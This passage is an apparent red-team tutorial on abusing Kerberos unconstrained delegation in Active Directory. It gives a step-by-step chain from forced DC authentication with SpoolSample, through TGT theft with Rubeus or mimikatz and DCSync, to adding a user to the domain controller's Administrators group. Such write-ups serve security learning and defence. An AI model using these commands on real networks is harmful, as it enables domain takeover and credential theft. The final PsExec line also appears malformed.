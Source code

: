 The most efficient way to spread privileges rights within a domain is by the use of Group Policy Objects (GPO) (could also be set locally using secpol.msc)<br>

        

**How can it be abused by an attacker?**

First step is to identify if any principal has the **TRUSTED_FOR_DELEGATION** UserAccountControl attribute set (see ADSISearcher snippet above), let' say this is *UserA*.

If there is a user set with TRUSTED_FOR_DELEGATION (*UserA*), an attacker can steal another user's TGT - let's call that user *UserB* - if:
1. The attacker (*UserA*) can make the victim (*UserB*) connect to a service run by *UserA* (who has the TRUSTED_FOR_DELEGATION attribute set)
2. The attacker (*UserA*) can extract *UserB*'s TGT from the computer where *UserA* run his/her service and that *UserB* connected to.
    
For 1. [@tifkin_'s](https://twitter.com/tifkin_) amazing [SpoolSample.exe](https://github.com/leechristensen/SpoolSample) (also known for being the exploit for "The PrinterBug") can be used to trick an arbitrary ComputerAccount (including the DC-Computer account) to authenticate against a chosen target machine:<br>
```powershell
.\SpoolSample.exe <PDC> <Target-Computer>
```

For 2. Easiest way to extract a TGT is by having local admin access to the targeted Computer, and then using either<br> 
- [Rubeus](https://github.com/GhostPack/Rubeus): `Rubeus.exe monitor`<br>
- [Mimikatz](https://github.com/gentilkiwi/mimikatz): `mimikatz # sekurlsa::tickets /export`

The extracted TGT of the targeted principal (*UserB*) can then in turn be used to connect to arbitrary other services on behalf of the victim, *UserB*.

**An attack chain** could look as follows:<br>
Assume you found found a computer account (ComputerA$) is set with the TRUSTED_FOR_DELEGATION attribute:<br>

> - You managed to compromise ComputerA$<br>
> - You then use [SpoolSample.exe](https://github.com/leechristensen/SpoolSample) to force the Primary Domain Controller (computername: *PDC$*) to connect back to ComputerA$<br>
> - You then use Rubeus or mimikatz to extract the TGT of *PDC$*:<br>
-- [Rubeus](https://github.com/GhostPack/Rubeus): `Rubeus.exe monitor`<br>
-- [Mimikatz](https://github.com/gentilkiwi/mimikatz): `mimikatz # sekurlsa::tickets /export`
> - You can now import the TGT of *PDC$* into mimikatz or Rubeus<br>
-- [Rubeus](https://github.com/GhostPack/Rubeus): ```Rubeus.exe ptt /ticket:doIFODC<<SNIPP>>``` <br>
-- [Mimikatz](https://github.com/gentilkiwi/mimikatz): `kerberos::ptt XXX@YYYY.kirbi` <br>
*(.kirbi files obtained via ```sekurlsa::tickets /export```)*<br>
> - After you imported the TGT of the *PDC$* into your current process you can use that to run a DCSync attack<br>
-- [Mimikatz](https://github.com/gentilkiwi/mimikatz): `mimikatz # lsadump::dcsync /domain:<DOMAIN.FQDN> /user:X`<br>
*X could be any user, e.g. the default (RID 500) admin of the DC, or the krbtgt user*<br>
> - Let's say you set the username (X) to be the default admin (RID 500) account for the *PDC$*<br>
This will return you the *PDC$*'s default admin's NTLM hash<br>
This NTLM hash can in turn be used to request a TGT of that default admin user<br>
-- [Rubeus](https://github.com/GhostPack/Rubeus): `Rubeus.exe asktgt /user:DA01 /rc4:<NTLM-Hash-From-RID-500-Admin> /ptt`<br>
In this command you not only requested the TGT, but also included it in you current process with the **/ptt**-flag<br>
Now that you included the *PDC$* default admin's TGT in your current process, you're basically that user now (within this process).<br>
You can now use your new user access for example by using [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) to add a new user to the local admin group on the *PDC$*<br>
- `C:\> PsExec.exe \\PDC$.FQDN localgroup Administrators <DOMAIN>\<YourUser> /add`<br>
